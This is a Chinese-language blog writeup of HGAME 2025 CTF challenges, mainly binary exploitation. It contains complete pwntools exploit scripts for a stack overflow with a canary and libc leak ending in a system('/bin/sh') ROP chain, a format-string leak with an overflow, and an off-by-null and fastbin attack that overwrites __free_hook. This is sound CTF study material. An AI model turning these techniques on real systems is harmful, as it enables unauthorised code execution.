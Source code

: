 ```yaml
---
tags: [ctf]
comments: true
author: ldz
---
```

# hgame 2025 pwn writeup(部分)

![img](http://www.leidongzheng.com/wp-content/uploads/2025/02/IMG_718720250205-203749.jpg)

os：太久没做了老犯蠢

## w1

#### ***counting petals\***

漏洞在于向v7中读取数据的过程中存在溢出可以覆盖v8，从而修改v8为某个大于16的值，最后泄露地址，然后在第二次循环时故技重施直接溢出弹shell

![img](../images/hgame1.png)

```
from pwn import *
#io = process('./vuln')
io = remote('119.45.167.173',31519)
libc = ELF('libc.so.6')
elf = ELF('./vuln')
context(os='linux',arch='amd64',log_level='debug')
log.info("first times")
io.sendlineafter(b'time?',b'16')
io.recvuntil(b'Tell me the number of petals in each flower.\n')
for i in range(16):
    io.sendlineafter(b' : ',b'99')
for i in range(15):
    io.sendlineafter(b' : ',b'16')

io.sendlineafter(b' : ',b'429496729699')
io.sendlineafter(b'Reply 1 indicates the former and 2 indicates the latter:',b'1')
io.recvuntil(b' + 429496729699 + ')
canary = int(io.recvuntil(b' ',drop=True),10) 
io.recvuntil(b'+ 1 + ')
libc_base = int(io.recvuntil(b' ',drop=True),10) -0x7fcf70b1dd68 + 0x7fcf70af4000 -0x28
log.info("libc_base : "+str(hex(libc_base)))

sys_addr = libc.symbols['system']+libc_base
binsh = next(libc.search(b'/bin/sh')) + libc_base
pop_rdi_ret = 0x2a3e5 +  libc_base
ret = 0x29139 + libc_base 
log.info("second times")
io.sendlineafter(b'time?',b'16')
io.recvuntil(b'Tell me the number of petals in each flower.\n')
for i in range(16):
    io.sendlineafter(b' : ',b'21')
for i in range(15):
    io.sendlineafter(b' : ',b'16')

io.sendlineafter(b' : ',b'68719476758')
io.sendlineafter(b' : ',str(canary).encode())
io.sendlineafter(b' : ',b'0')
io.sendlineafter(b' : ',str(pop_rdi_ret).encode())
io.sendlineafter(b' : ',str(binsh).encode())
io.sendlineafter(b' : ',str(ret).encode())
io.sendlineafter(b' : ',str(sys_addr).encode())
io.sendlineafter(b'Reply 1 indicates the former and 2 indicates the latter:',b'1')
io.interactive()
```

![img](../images/hgame2.png)

#### ***ezstack\***

虚拟机配docker一直起不来，大概说下思路，感觉应该是先栈迁puts(puts@got)然后再迁一次ORW

#### ***format\***

漏洞在于vuln函数整数解析错误可以溢出，溢出可以覆盖format[4]、v5、v6、i，然后直接改返回地址到循环内最后一次printf的地址，这样就可以利用我们覆盖的数据泄露libc地址，最后再通过vuln函数溢出

![img](../images/hgame3.png)

```
from pwn import *
#io = process('./vuln')
io = remote('node2.hgame.vidar.club',30453)
elf = ELF('./vuln')
libc = ELF('libc.so.6')
context(os='linux',arch='amd64',log_level='debug')
log.info("use FMT to leak some addr")
io.sendlineafter(b' n = ',b'1')
sleep(0.1)
io.sendlineafter(b'type something:',b'%p')
sleep(0.1)
io.recvuntil(b'you type: ')
rbp_addr = int(io.recvuntil(b'y',drop=True).decode(),16)+0x7ffe63ae45d0-0x7ffe63ae4410 + 0x7ffcef294e90 -0x7ffcef292f20
log.info("leak_rbp_addr : "+str(hex(rbp_addr)))
log.info("Okay! Let's overflow!!!")
io.sendlineafter(b' n = ',b'-1')
io.send(b'a'*5+p64(rbp_addr)+p64(0x4012cf)+b'%3$p'+p32(0xffffffff)+p64(0))
io.recvuntil(b'something:')
libc_addr = int(io.recvuntil(p32(0xffffffff),drop=True).decode(),16)-0x7f1865be66dd+0x7f1865ae0000+0x3000+0x7f1947000000-0x7f1947011105
log.info("libc_addr : "+str(hex(libc_addr)))
log.info("Okay! Let's overflow the second times!!!")
sys = libc_addr + libc.symbols['system']
binsh = libc_addr + next(libc.search(b'/bin/sh'))
pop_rdi_ret = 0x2a3e5 + libc_addr
ret = 0x29139 + libc_addr
#gdb.attach(io)
log.info("rdi_addr : "+str(hex(pop_rdi_ret)))
log.info("binsh_addr : "+str(hex(binsh)))
log.info("sys_addr : "+str(hex(sys)))
pl = b'a'*4
pl += p64(rbp_addr)
pl += p64(pop_rdi_ret)
pl += p64(binsh)
pl += p64(ret)
pl += p64(sys)
io.send(pl)
io.interactive()
```

![img](../images/hgame4.png)

#### ***Compress dot new\***

有时候不得不感慨deepseek是真的强，直接就把揭秘脚本嗦出来了

![img](../images/hgame5.png)

![img](../images/hgame6.png)

#### ***Turtle\***

需要先手动脱个壳，然后丢给deepseek

os:deepseek…, 这就是神吗…

![img](../images/hgame7.png)

![img](http://www.leidongzheng.com/wp-content/uploads/2025/02/图片-10.png)

![img](../images/hgame8.png)

***Level 24 Pacman\***

先禁止JS执行，F12看到后台两个JS文件，穿过去看到两串疑似flag的密文，base64+Fence解密

![img](../images/hgame9.png)

# w2

#### **Signin2Heap\**

off-by-null + fastbin attack

```
from pwn import *
io = process('./vuln')
context(os='linux',arch='amd64',log_level='debug')
libc = ELF('libc-2.27.so')
a = str(chr(0))
b = str(chr(1))
c = str(chr(2))
d = str(chr(3))
def add(idx,size,con):
    io.sendafter(b'Your choice:',(b+a).encode())
    io.sendlineafter(b'Index: ',str(idx).encode())
    io.sendlineafter(b'Size: ',str(size).encode())
    io.sendafter(b'Content: ',con)
 
def free(idx):
    io.sendafter(b'Your choice:',(c+a).encode())
    io.sendlineafter(b'Index: ',str(idx).encode())

def show(idx):
    io.sendafter(b'Your choice:',(d+a).encode())
    io.sendlineafter(b'Index: ',str(idx).encode())
log.info("leak_addr && off_by_one")
for i in range(7):
    add(i,0xf8,b"aaaa")
add(7,0xf8,b"7")#7
add(8,0x68,b"8")#8
add(9,0xf8,b"9")#9
add(10,0x68,b'10')

for i in range(7):
    free(i)
free(8)
free(7)
add(0,0x68,b"a"*0x60+p64(0x70+0x100))
free(9)
add(7,0x78,b'aaaa')
add(8,0x78,b'aaaa')
show(0) #key
libc_addr = u64(io.recvuntil(b'\x0a',drop=True).ljust(8,b'\x00')) + 0x7f2bf4a00000 - 0x7f2bf4debca0
log.info("libc addr: "+str(hex(libc_addr)))
free_hook = libc_addr + libc.symbols['__free_hook']
sys_addr = libc_addr + libc.symbols['system']
log.info("free_hook addr: "+str(hex(free_hook)))
log.info("sys_addr addr: "+str(hex(sys_addr)))
add(15,0x68,b'b')
free(7)
free(8)
log.info("fastbins attack")
for i in range(1,8):
    add(i,0x68,b'1')
for i in range(1,8):
    free(i)
free(15)
free(10)
free(0)
for i in range(1,8):
    add(i,0x68,b'a')
add(14,0x68,p64(free_hook))
add(13,0x68,b'/bin/sh\x00')
add(12,0x68,b'/bin/sh\x00')

add(11,0x68,p64(sys_addr))
free(13)
gdb.attach(io)
io.interactive()
```

![img](../images/hgame10.png)

***Where is the vulnerability\***

house of apple2 + orw
